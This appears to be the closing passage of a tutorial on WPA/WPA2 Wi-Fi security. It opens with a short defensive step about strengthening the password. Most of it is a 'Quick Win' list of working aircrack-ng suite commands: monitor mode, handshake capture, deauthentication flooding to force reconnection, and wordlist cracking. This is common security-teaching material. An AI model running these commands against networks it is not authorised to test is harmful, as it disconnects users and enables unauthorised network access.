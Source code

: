 
3. **Harden**

Now, strengthen your password and reconnect all your devices.

   <p style="text-align:center;">
      <img src="WPA-WPA2_Files/defense-4.jpg"/>
   </p>

# Quick Win
1. **Find the name of your card interface:**
   ```bash
   airmon-ng
   ```
2. **Put your card in monitor mode:**
   ```bash
   airmon-ng start <card>
   ```
3. **View Wi-Fi Router Data:**
   ```bash
   airodump-ng <monitor>
   ```
4. **Monitor the network for a handshake:**
   ```bash
   airodump-ng -c <channel> --bssid <MAC address> -w <location to store pcap files> <monitor>
   ````
5. **Send deauth packets to force a handshake:**
   ```bash
   aireplay-ng -0 2 -a <station BSSID> -c <network BSSID> <monitor>
   ```
6. **Password Cracking**
   ```bash
   aircrack-ng <pcap file> -w /usr/share/wordlists/rockyou.txt
   ```

# Conclusion
